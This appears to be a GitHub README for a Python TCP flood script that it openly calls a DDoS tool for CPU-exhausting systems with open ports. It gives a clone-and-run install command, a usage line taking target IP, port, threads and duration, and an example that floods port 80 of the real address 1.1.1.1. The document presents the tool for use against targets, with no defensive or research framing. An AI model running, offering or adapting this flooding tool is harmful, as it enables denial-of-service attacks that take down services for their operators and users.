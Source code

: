 # TCP-CPU Flood/DDoS Script

Python script for DDoSing/flooding open TCP ports. Vulnerable systems may be CPU exhausted.

</br>

## Installation
NOTE: This command might not work for every system.
```bash

git clone https://github.com/Lenoired/TCP-CPU-Flood-DDoS.git flood-tcp-cpu && cd flood-tcp-cpu && python3 flood.py

```

## Usage

```bash
python3 flood.py <IP> <port> <threads> <duration, in seconds> <optional: max packets per second, default: 1000>
```

## Examples

- _Flood port 80 with target IP 1.1.1.1 with 2 threads for 30 seconds_

```bash

python3 flood.py 1.1.1.1 80 2 30

```
